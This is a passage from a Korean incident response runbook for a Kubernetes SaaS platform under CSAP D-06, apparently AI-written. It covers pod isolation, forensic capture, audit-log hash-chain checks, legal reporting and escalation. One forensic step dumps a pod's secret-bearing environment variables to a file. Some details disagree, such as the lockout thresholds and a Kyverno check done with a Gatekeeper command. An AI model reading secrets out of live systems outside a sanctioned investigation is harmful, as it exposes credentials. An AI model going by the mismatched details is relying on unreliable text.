kubectl taint nodes $SUSPICIOUS_NODE \
  security-incident=true:NoSchedule
```

**3단계: 포렌식을 위한 Pod 스냅샷**

```bash
FORENSIC_DIR="/data/ai-saas/.bkit/audit/incidents/forensics-$(date +%Y%m%d-%H%M)"
mkdir -p "$FORENSIC_DIR"

# Pod 상세 정보 저장
kubectl describe pod $SUSPICIOUS_POD -n $SUSPICIOUS_NS > \
  "$FORENSIC_DIR/pod-describe.txt"

# 현재 프로세스 목록 저장 (공격자 흔적)
kubectl exec $SUSPICIOUS_POD -n $SUSPICIOUS_NS -- \
  ps aux > "$FORENSIC_DIR/processes.txt" 2>&1 || true

# 네트워크 연결 상태 저장
kubectl exec $SUSPICIOUS_POD -n $SUSPICIOUS_NS -- \
  netstat -tulpn > "$FORENSIC_DIR/network-connections.txt" 2>&1 || true

# 파일 시스템 변경 확인 (최근 1시간 내 변경된 파일)
kubectl exec $SUSPICIOUS_POD -n $SUSPICIOUS_NS -- \
  find / -newer /proc/1 -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null | \
  head -50 > "$FORENSIC_DIR/recent-file-changes.txt" || true

# 환경 변수 저장 (시크릿 노출 여부 확인)
# 주의: 이 파일은 민감 정보 포함, 접근 제한 필수
kubectl exec $SUSPICIOUS_POD -n $SUSPICIOUS_NS -- \
  env > "$FORENSIC_DIR/environment-SENSITIVE.txt" 2>&1 || true
chmod 600 "$FORENSIC_DIR/environment-SENSITIVE.txt"

# Pod 로그 전체 저장
kubectl logs $SUSPICIOUS_POD -n $SUSPICIOUS_NS \
  > "$FORENSIC_DIR/pod-logs.txt"
kubectl logs $SUSPICIOUS_POD -n $SUSPICIOUS_NS \
  --previous > "$FORENSIC_DIR/pod-logs-previous.txt" 2>/dev/null || true

echo "포렌식 스냅샷 저장 완료: $FORENSIC_DIR"
ls -la "$FORENSIC_DIR"
```

**4단계: 의심 Pod 종료 및 새 Pod 검증 배포**

```bash
# 격리 및 증거 수집 완료 후 의심 Pod 종료
kubectl delete pod $SUSPICIOUS_POD -n $SUSPICIOUS_NS

# 새 Pod가 깨끗한 이미지로 시작하는지 확인
kubectl get pods -n $SUSPICIOUS_NS -l app=api-gateway

# 새 Pod의 Cosign 서명 검증 확인 (Kyverno 정책 통해 자동)
kubectl get constrainttemplate | grep cosign

# 노드 격리 해제 (보안 조사 완료 후)
# kubectl uncordon $SUSPICIOUS_NODE
# kubectl taint nodes $SUSPICIOUS_NODE security-incident=true:NoSchedule-
```

### 3.5 시나리오 5: CSAP 감사 로그 조작 시도

```
시나리오:
  - 탐지: 감사 서비스가 "INTEGRITY_VIOLATION" 알림 발송
  - 증상: 감사 로그 레코드의 SHA-256 체인이 불일치 감지
  - 의미: 누군가 감사 로그를 직접 수정하거나 삭제하려 시도
  - CSAP 분류: D-06 (무결성 침해 — 최고 등급), 등급 4
```

**이 시나리오는 즉각 팀 리드와 보안팀 모두 호출 필요합니다.**

**1단계: 감사 로그 무결성 즉각 검증**

```bash
# 감사 로그 서비스 상태 확인
kubectl get pods -n saas-platform -l app=audit-service

# 감사 로그 서비스 최근 로그
kubectl logs -n saas-platform \
  -l app=audit-service --tail=100 | \
  grep -E "INTEGRITY|VIOLATION|HASH|ERROR"

# 감사 로그 무결성 검증 (SHA-256 체인 확인)
# audit-service는 각 레코드에 이전 레코드의 해시를 포함합니다
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    WITH chain_check AS (
      SELECT
        id,
        previous_hash,
        current_hash,
        LAG(current_hash) OVER (ORDER BY id) AS expected_previous_hash
      FROM audit_logs
      WHERE created_at > NOW() - INTERVAL '24 hours'
    )
    SELECT id, previous_hash, expected_previous_hash,
           (previous_hash = expected_previous_hash) AS is_valid
    FROM chain_check
    WHERE previous_hash != expected_previous_hash
    LIMIT 10;
  "
```

**2단계: 훼손된 레코드 범위 파악**

```bash
# 최초 무결성 실패 지점 찾기
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    -- 무결성 체인이 끊어진 첫 번째 지점
    SELECT MIN(id) as first_violation, MAX(id) as last_violation, COUNT(*) as affected_count
    FROM audit_logs
    WHERE integrity_valid = false;
  "

# 해당 시간대에 DB에 직접 접근한 계정 확인
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    SELECT usename, application_name, client_addr, query_start, query
    FROM pg_stat_activity
    WHERE datname = 'saas_db'
    ORDER BY query_start DESC;
  "

# PostgreSQL 접속 로그 확인
kubectl logs -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  --since=24h | grep -E "connection|authentication|FATAL|ERROR"
```

**3단계: 즉각 보존 조치**

```bash
# 현재 감사 로그 전체를 읽기 전용 백업으로 보존
BACKUP_DIR="/data/ai-saas/.bkit/audit/integrity-incident-$(date +%Y%m%d-%H%M)"
mkdir -p "$BACKUP_DIR"

# 감사 로그 전체 덤프 (CSAP 증거 보존)
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- pg_dump -U postgres -t audit_logs saas_db | \
  gzip > "$BACKUP_DIR/audit-logs-backup-$(date +%Y%m%d).sql.gz"

# SHA-256 해시 저장 (파일 무결성 증거)
sha256sum "$BACKUP_DIR/audit-logs-backup-$(date +%Y%m%d).sql.gz" > \
  "$BACKUP_DIR/backup-integrity.sha256"

# 파일 권한 잠금 (추가 변조 방지)
chmod 444 "$BACKUP_DIR/audit-logs-backup-$(date +%Y%m%d).sql.gz"
chmod 444 "$BACKUP_DIR/backup-integrity.sha256"

echo "감사 로그 보존 완료: $BACKUP_DIR"
```

---

## 4. CSAP D-06 침해사고 관리 요건

### 4.1 5단계 대응 절차

CSAP D-06은 침해사고 대응을 5단계로 규정합니다.

```
단계 1: 탐지 (Detection)
  목표: 보안 이벤트 발생을 인지
  도구: Falco, AlertManager, security-service API
  시간: 자동 탐지는 수초, 수동 발견은 늦어짐
  기록 필수: 탐지 시각, 탐지 방법, 탐지자

단계 2: 분석 (Analysis)
  목표: 이벤트가 실제 침해인지, 범위가 어디까지인지 파악
  도구: Loki, Prometheus, kubectl, PostgreSQL 감사 로그
  시간: 5~30분 (사건 복잡도에 따라)
  기록 필수: 분석 결과, 침해 여부, 영향 데이터 목록

단계 3: 격리 (Containment)
  목표: 추가 피해 방지, 공격 경로 차단
  도구: IP 차단 API, Pod 격리, 계정 잠금
  시간: 분석과 동시에 진행 가능
  기록 필수: 격리 조치 내용, 격리 시각, 영향

단계 4: 복구 (Recovery)
  목표: 서비스 정상화, 보안 강화
  도구: 시크릿 교체, 패치 적용, 서비스 재시작
  시간: 사건에 따라 수십 분~수일
  기록 필수: 복구 조치, 복구 시각, 검증 방법

단계 5: 보고 (Reporting)
  목표: 이해관계자 및 규제 기관에 보고
  내부: 팀 리드, CTO (즉시)
  외부: 규제 기관 (72시간 내, 해당 시)
  기록 필수: 공식 보고서, 타임라인, 재발 방지 계획
```

### 4.2 CSAP D-06 침해사고 대응 프로세스 다이어그램



### 4.3 72시간 내 보고 의무

```
외부 신고 의무 (법적 요건):

  개인정보보호법 제34조:
    - 개인정보 유출 인지 후 72시간 이내
    - 개인정보보호위원회에 신고 의무
    - 유출 규모, 항목, 시기, 경위, 피해 최소화 조치 포함
    - 미신고 시 과태료 3,000만 원 이하

    신고 방법:
      - 개인정보보호위원회: privacy.go.kr
      - 전화: 02-2100-3499

  정보통신망법 제48조의3:
    - 침해사고 발생 시 과학기술정보통신부 및 KISA에 신고
    - 침해사고 규모 등에 따라 신고 의무 발생

  KISA 사이버침해신고센터:
    - 전화: 118
    - 온라인: boho.or.kr/cyberinfringement
    - 24시간 운영

  신고가 필요한 상황:
    - 개인정보 (이름, 주민번호, 연락처 등) 유출
    - 공공기관 시스템 침해
    - 국가 중요 정보 탈취 의심
    - 랜섬웨어 감염

  신고가 불필요한 상황:
    - 단순 로그인 시도 (성공 없음)
    - 서비스 성능 저하 (개인정보 영향 없음)
    - 내부 설정 오류로 인한 일시 장애

  주의: 신고 여부는 팀 리드와 법무팀이 결정합니다.
        온콜 담당자가 단독으로 결정하지 마세요.
```

### 4.4 증거 보존 방법

```bash
# 보안 인시던트 증거 수집 스크립트
# CSAP D-06: 증거는 최소 5년 보존 (일반 로그 1년과 다름)

INCIDENT_ID="${1:-INC-SEC-$(date +%Y%m%d-%H%M)}"
EVIDENCE_BASE="/data/ai-saas/.bkit/audit/security-incidents"
EVIDENCE_DIR="$EVIDENCE_BASE/$INCIDENT_ID"
mkdir -p "$EVIDENCE_DIR"

echo "=== 보안 인시던트 증거 수집 시작: $INCIDENT_ID ==="
echo "수집 시작 시각: $(date -Iseconds)"

# 1. 시스템 상태 스냅샷
kubectl get all -A > "$EVIDENCE_DIR/system-snapshot.txt"
kubectl get events -A --sort-by='.lastTimestamp' > "$EVIDENCE_DIR/k8s-events.txt"
kubectl top nodes > "$EVIDENCE_DIR/node-resources.txt"
kubectl top pods -A > "$EVIDENCE_DIR/pod-resources.txt"

# 2. 보안 관련 리소스
kubectl get networkpolicy -A -o yaml > "$EVIDENCE_DIR/network-policies.yaml"
kubectl get rolebinding,clusterrolebinding -A > "$EVIDENCE_DIR/rbac-bindings.txt"

# 3. 감사 로그 추출 (인시던트 전후 2시간)
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    COPY (
      SELECT * FROM audit_logs
      WHERE created_at > NOW() - INTERVAL '4 hours'
      ORDER BY created_at
    ) TO STDOUT WITH CSV HEADER
  " > "$EVIDENCE_DIR/audit-logs-extract.csv"

# 4. 보안 이벤트 로그
kubectl logs -n saas-platform -l app=security-service \
  --since=4h > "$EVIDENCE_DIR/security-service-logs.txt"
kubectl logs -n falco -l app=falco \
  --since=4h > "$EVIDENCE_DIR/falco-logs.txt"

# 5. 모든 파일의 SHA-256 해시 (무결성 증거)
find "$EVIDENCE_DIR" -type f | sort | \
  xargs sha256sum > "$EVIDENCE_DIR/SHA256SUMS.txt"

# 6. 증거 파일 읽기 전용으로 잠금
chmod -R 444 "$EVIDENCE_DIR"
chmod 755 "$EVIDENCE_DIR"

echo "=== 증거 수집 완료 ==="
echo "저장 위치: $EVIDENCE_DIR"
ls -la "$EVIDENCE_DIR"
```

---

## 5. 보안 인시던트 보고서 작성

### 5.1 보고서 템플릿

```markdown
# 보안 인시던트 보고서

**보고서 번호**: SEC-INC-YYYY-MMDD-NNN
**보안 등급**: [1-정보 / 2-경고 / 3-침해 의심 / 4-침해 확인]
**CSAP 분류**: D-06 (침해사고), D-08 (접근 통제), D-09 (암호화)
**작성자**: [이름]
**작성 시각**: YYYY-MM-DD HH:MM KST
**승인자**: [팀 리드 이름]
**비밀 등급**: 대외비 (내부용)

---

## 1. 사건 개요

| 항목 | 내용 |
|------|------|
| 탐지 시각 | YYYY-MM-DD HH:MM KST |
| 종료 시각 | YYYY-MM-DD HH:MM KST |
| 총 영향 시간 | XX분 |
| 영향 서비스 | (목록) |
| 영향 데이터 | (목록 또는 없음) |
| 영향 사용자 수 | 추정 XX명 |
| 개인정보 유출 | 없음 / (있으면 항목과 건수) |

## 2. 사건 타임라인

| 시각 | 담당자 | 내용 |
|------|--------|------|
| HH:MM | | 이벤트 최초 발생 (추정) |
| HH:MM | @온콜 | 알림 수신 |
| HH:MM | @온콜 | 보안팀 호출 |
| HH:MM | @보안팀 | 격리 조치 실행 |
| HH:MM | @보안팀 | 영향 범위 파악 완료 |
| HH:MM | @팀리드 | 외부 신고 여부 결정 |
| HH:MM | @온콜 | 서비스 복구 확인 |

## 3. 근본 원인 (Root Cause)

(공격 유형, 취약점, 실패한 보안 통제 설명)

## 4. 공격 경로 및 방법

(기술적 상세, 어떻게 탐지되었는지)

## 5. 영향 분석

### 5.1 영향 받은 시스템
- (목록)

### 5.2 영향 받은 데이터
- (목록 또는 없음)
- 개인정보 포함 여부: 없음 / (있으면 상세)

### 5.3 비즈니스 영향
- 서비스 중단: (시간)
- 데이터 영향: (내용)

## 6. 대응 조치 내역

| 조치 | 시각 | 담당자 | 결과 |
|------|------|--------|------|
| IP 차단 | HH:MM | | 완료 |
| 계정 잠금 | HH:MM | | 완료 |
| 시크릿 교체 | HH:MM | | 완료 |

## 7. 외부 신고 여부

- 개인정보보호위원회: 신고 없음 / (신고 시: 신고 번호, 시각)
- KISA 침해신고: 신고 없음 / (신고 시: 접수 번호)

## 8. CSAP 증거 파일

저장 위치: `.bkit/audit/security-incidents/SEC-INC-YYYY-MMDD-NNN/`
파일 목록:
- audit-logs-extract.csv (SHA-256: xxxx)
- security-service-logs.txt (SHA-256: xxxx)
- falco-logs.txt (SHA-256: xxxx)

## 9. 재발 방지 계획

| 조치 | 담당자 | 완료 기한 |
|------|--------|---------|
| | | |
```

### 5.2 필수 포함 항목

```
CSAP D-06 감사를 위한 필수 포함 항목:

  [기본 정보]
  ✅ 보고서 번호 (추적 가능한 유일한 ID)
  ✅ CSAP 분류 코드 (D-06 등)
  ✅ 작성자 및 승인자 (책임 추적)
  ✅ 비밀 등급 표시

  [사건 내용]
  ✅ 탐지 시각 ~ 종료 시각 (초 단위까지)
  ✅ 탐지 방법 (자동/수동, 어떤 도구)
  ✅ 영향 서비스 완전한 목록
  ✅ 영향 받은 데이터 목록 (개인정보 포함 여부)
  ✅ 개인정보 유출 여부 및 규모

  [대응 내역]
  ✅ 모든 대응 조치의 시각, 담당자, 결과
  ✅ 격리 조치 (무엇을 어떻게 격리)
  ✅ 복구 조치 (무엇을 어떻게 복구)

  [규제 사항]
  ✅ 외부 신고 여부 및 신고 내역
  ✅ CSAP 증거 파일 저장 위치 및 해시값

  [개선]
  ✅ 근본 원인 분석 결과
  ✅ 재발 방지 계획 (담당자, 기한 포함)
```

### 5.3 실제 작성 예시 — 시나리오 1 기반

```markdown
# 보안 인시던트 보고서

**보고서 번호**: SEC-INC-2026-0412-001
**보안 등급**: 2 — 경고 (로그인 반복 실패, 실제 침해 없음)
**CSAP 분류**: D-06 (침해사고 관리), D-08 (접근 통제)
**작성자**: 홍길동 (온콜 담당)
**작성 시각**: 2026-04-12 02:55 KST
**승인자**: 김팀장 (팀 리드)
**비밀 등급**: 대외비

---

## 1. 사건 개요

| 항목 | 내용 |
|------|------|
| 탐지 시각 | 2026-04-12 02:30:15 KST |
| 종료 시각 | 2026-04-12 02:50:00 KST |
| 총 영향 시간 | 약 20분 (대응 포함) |
| 영향 서비스 | auth-service (공격 대상), api-gateway |
| 영향 데이터 | 없음 (실제 침해 없음) |
| 영향 사용자 수 | 0명 (공격 대상 계정 user-123 제외) |
| 개인정보 유출 | 없음 |

## 2. 사건 타임라인

| 시각 | 담당자 | 내용 |
|------|--------|------|
| 02:25:00 | 공격자 | 해외 IP(203.0.113.45)에서 user-123 계정 로그인 시도 시작 |
| 02:30:15 | AlertManager | "LoginFailureRateHigh" 알림 발송 (47회 실패) |
| 02:32:00 | 홍길동 (온콜) | 알림 수신, 노트북 접속 |
| 02:34:00 | 홍길동 | security-service API로 로그인 실패 패턴 확인 |
| 02:36:00 | 홍길동 | 보안팀 @보안팀원A Slack 멘션 |
| 02:38:00 | 보안팀원A | IP 차단 결정 및 실행 (203.0.113.45, 24시간) |
| 02:40:00 | 홍길동 | 실제 로그인 성공 이력 없음 확인 (계정 침해 없음) |
| 02:45:00 | 홍길동 | 모니터링 확인 (추가 시도 없음) |
| 02:50:00 | 홍길동 | 인시던트 종료 선언 |

## 3. 근본 원인

외부 해외 IP(203.0.113.45)에서 user-123@example.com 계정에 대해
자동화된 브루트포스 로그인 시도 발생.
계정 잠금 정책(10회 실패 시 임시 잠금)이 작동하여 실제 침해 없음.

## 5. 영향 분석

### 5.2 영향 받은 데이터
개인정보 포함 없음. 로그인 시도만 발생, 데이터 접근 없음.

## 6. 대응 조치 내역

| 조치 | 시각 | 담당자 | 결과 |
|------|------|--------|------|
| IP 차단 (24시간) | 02:38 | 보안팀원A | 완료 |
| 계정 상태 확인 | 02:40 | 홍길동 | 정상 (침해 없음) |
| 모니터링 강화 | 02:45 | 홍길동 | 완료 |

## 7. 외부 신고 여부

- 개인정보보호위원회: 신고 없음 (개인정보 유출 없음)
- KISA 침해신고: 신고 없음 (실제 침해 없음)

## 9. 재발 방지 계획

| 조치 | 담당자 | 완료 기한 |
|------|--------|---------|
| 로그인 실패 임계값 5→3회로 강화 | 홍길동 | 2026-04-15 |
| 지리적 접근 제한 정책 검토 | 보안팀원A | 2026-04-20 |
| MFA 강제 적용 방안 검토 | 팀리드 | 2026-04-30 |
```

---

## 6. 재발 방지 및 보안 개선

### 6.1 루트 코즈 분석 — 5-Why 방법론

5-Why는 문제의 근본 원인을 찾기 위해 "왜?"라는 질문을 5번 반복하는 방법론입니다.

```
예시: 로그인 실패 브루트포스 공격

Why 1: 왜 공격이 성공할 뻔했는가?
→ 로그인 실패 횟수 제한이 10회로 너무 느슨했다

Why 2: 왜 제한이 10회로 설정되었는가?
→ 초기 설정 시 "사용자 불편 최소화"를 우선하여 보수적으로 설정했다

Why 3: 왜 보안 강도 vs 사용자 편의 트레이드오프를 재검토하지 않았는가?
→ 보안 정책 정기 검토 프로세스가 없었다

Why 4: 왜 정기 검토 프로세스가 없었는가?
→ CSAP 인증 준비 시 정적 정책만 작성하고 동적 검토 사이클을 만들지 않았다

Why 5: 왜 동적 검토 사이클이 없었는가?
→ 보안 정책 소유자(담당자)가 명확히 지정되지 않았다

근본 원인:
→ 보안 정책 소유자 지정 및 분기별 정책 검토 프로세스 부재

재발 방지 조치:
→ 보안 정책 소유자 지정 (누가 책임지는지)
→ 분기별 보안 정책 검토 스케줄 등록
→ 로그인 실패 임계값을 3회로 강화 (단기)
→ MFA 적용 로드맵 수립 (중기)
```

### 6.2 보안 패치 우선순위 결정

```
취약점 패치 우선순위 결정 매트릭스:

  CRITICAL 취약점 (CVSS 9.0 이상):
    - 패치 기한: 24시간 이내
    - 조치: 즉각 긴급 패치 또는 임시 완화 조치
    - 예: Log4Shell, Spring4Shell 수준
    - CSAP 요건: 즉각 조치 의무

  HIGH 취약점 (CVSS 7.0~8.9):
    - 패치 기한: 7일 이내
    - 조치: 다음 정기 배포 시 포함 또는 긴급 배포
    - 예: 권한 상승, 원격 코드 실행 가능성

  MEDIUM 취약점 (CVSS 4.0~6.9):
    - 패치 기한: 30일 이내
    - 조치: 다음 스프린트에 포함
    - 예: 정보 유출 가능성, 서비스 거부

  LOW 취약점 (CVSS 0.1~3.9):
    - 패치 기한: 90일 이내
    - 조치: 백로그 관리, 순서대로 처리

우선순위 결정 추가 기준:
  - 인터넷에 노출된 서비스의 취약점은 등급 상향 (x2)
  - 실제 악용 사례(Exploit) 있으면 등급 상향 (즉각 처리)
  - 개인정보 처리 컴포넌트의 취약점은 등급 상향
```

### 6.3 보안 개선 PDCA 사이클 다이어그램



---

## 7. 연락처 및 에스컬레이션 매트릭스

### 7.1 심각도별 연락 대상

```
보안 인시던트 에스컬레이션 매트릭스:

  등급 1 (정보성 이벤트):
    통보 대상: 다음 보안 주간회의에서 공유
    방법: Gitea Issues에 기록

  등급 2 (경고 — 보안 위협 패턴):
    통보 대상: 보안팀 담당자
    방법: Slack @security-team + 보안팀 담당자 직통
    시간: 발생 즉시 (30분 이내)

  등급 3 (침해 의심):
    통보 대상: 보안팀 + 팀 리드
    방법: 직접 전화 + Slack
    시간: 발생 즉시 (15분 이내)

  등급 4 (침해 확인):
    통보 대상: 보안팀 + 팀 리드 + CTO + (필요 시) CEO
    방법: 직접 전화 (시간 무관)
    시간: 발생 즉시 (5분 이내)
    추가: Slack #crisis-response 채널 개설

  연락처 목록: 내부 위키 → 보안 > 비상 연락처
  (보안상의 이유로 이 문서에 직접 기재하지 않음)
```

### 7.2 외부 기관 신고 절차

```
외부 신고 절차 (팀 리드 승인 후 진행):

  [개인정보보호위원회]
  목적: 개인정보 유출 사고 신고
  기한: 인지 후 72시간 이내
  방법: privacy.go.kr 온라인 신고 또는 전화 02-2100-3499
  필요 정보:
    - 신고인 정보 (기관명, 담당자, 연락처)
    - 유출 일시 및 인지 일시
    - 유출된 개인정보 항목 및 규모
    - 유출 경위
    - 피해 최소화 조치 내용
    - 향후 재발 방지 대책

  [KISA 사이버침해신고센터]
  목적: 사이버 공격, 시스템 침해 신고
  전화: 118 (24시간 운영)
  온라인: boho.or.kr/cyberinfringement
  필요 정보:
    - 피해 기관 정보
    - 피해 발생 일시
    - 피해 내용 (공격 유형, 피해 시스템)
    - 조치 내용

  신고 시 주의사항:
    - 신고 내용은 대외비로 처리
    - 신고 전 법무팀 검토 필요 (법적 책임 측면)
    - 신고 후 접수 번호 보관 (CSAP 증거)
    - 신고 내용을 보고서에 기록
```

### 7.3 CSAP 인증 기관 통보 요건

```
CSAP 인증 기관 통보 (한국인터넷진흥원 KISA):

  통보 필요 상황:
    - CSAP 인증 요건을 위반하는 보안 사고
    - 개인정보 대량 유출 (1,000명 이상)
    - 서비스 장기 중단 (8시간 이상)
    - 악의적 내부자 행위 확인

  통보 방법:
    - KISA 클라우드 서비스 보안인증제도 사무국에 통보
    - 연락처: 내부 위키 → CSAP 인증 관리 → 통보 방법
    - 공식 보안사고 보고서 제출 필요

  통보 시 포함 내용:
    - 사고 개요 및 타임라인
    - 영향 받은 서비스 목록 및 데이터 현황
    - 조치 내역 및 결과
    - 재발 방지 계획

  연간 보고:
    - CSAP 인증 갱신 시 보안 인시던트 이력 전수 제출
    - 인시던트 보고서, 조치 이력, 개선 내용 포함

  CSAP 요건 준수 여부:
    - 보안 인시던트 발생이 자동으로 인증 취소 의미는 아님
    - 적절한 대응 절차를 따른 증거가 더 중요
    - 숨기려다 발견되면 더 큰 패널티
```

---

## 8. 학습 체크리스트

이 문서를 완전히 익혔다면 다음 항목을 수행할 수 있어야 합니다.

```
보안 인시던트 이해:
[ ] 일반 인시던트와 보안 인시던트의 차이를 설명할 수 있다
[ ] CSAP D-06 침해사고 5가지 유형을 말할 수 있다
[ ] 보안 이벤트 심각도 1~4등급 분류 기준을 알고 있다

탐지 도구 활용:
[ ] security-service 로그인 실패 API를 호출할 수 있다
[ ] Falco 알림 로그를 kubectl로 조회할 수 있다
[ ] Loki에서 보안 이벤트 5개 LogQL 쿼리를 실행할 수 있다
[ ] Grafana 보안 대시보드 2개를 찾아서 열 수 있다

시나리오 대응:
[ ] 로그인 브루트포스 탐지 후 IP 차단 API를 실행할 수 있다
[ ] 컨테이너 이상 행위 탐지 후 Pod 격리 명령어를 실행할 수 있다
[ ] 시크릿 노출 의심 시 Vault 폐기 절차를 알고 있다
[ ] 감사 로그 무결성 실패 시 보존 스크립트를 실행할 수 있다

CSAP 의무:
[ ] 72시간 내 외부 신고 의무가 어떤 상황에서 발생하는지 안다
[ ] 보안 인시던트 보고서의 필수 포함 항목 8가지를 말할 수 있다
[ ] 증거 파일 수집 스크립트를 실행하고 결과를 확인할 수 있다
[ ] 포스트모템 5-Why 방법론으로 근본 원인 분석을 할 수 있다

에스컬레이션:
[ ] 등급 3 이상 보안 인시던트 시 누구를 호출해야 하는지 안다
[ ] 외부 신고 시 팀 리드 승인이 왜 필요한지 이해한다
[ ] CSAP 인증 기관 통보가 필요한 상황을 구분할 수 있다
```

---

## 변경 이력

| 버전 | 날짜 | 내용 | 작성자 |
|------|------|------|--------|
| 1.0.0 | 2026-04-12 | 최초 작성 — CSAP D-06 기반 보안 인시던트 대응 완전 가이드 | Implementer (Sonnet) |
